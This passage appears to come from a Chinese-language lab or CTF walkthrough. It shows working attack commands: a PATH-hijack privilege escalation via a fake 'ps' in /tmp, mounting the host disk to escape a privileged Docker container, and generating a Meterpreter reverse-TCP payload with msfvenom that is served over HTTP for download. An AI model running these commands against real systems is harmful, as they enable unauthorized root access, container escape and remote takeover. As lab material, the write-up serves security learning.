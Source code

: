 ```cmd
cd /tmp
echo "/bin/sh" >ps
chmod 777 ps
export PATH=/tmp:$PATH
echo $PATH
cd /home/jobs
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20250318125153157](./assets/image-20250318125153157.png)

- 成功提权,开始尝试`docker特权逃逸`

*****

### 传入msf

- 将/dev/sda1挂载到/hack

```bash
mkdir /hack
ls /dev
mount /dev/sda1 /hack
```

- 生成msf马,让容器下载

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.7 LPORT=4444 -f elf -o ./shell.elf
python -m http.server 8000
```
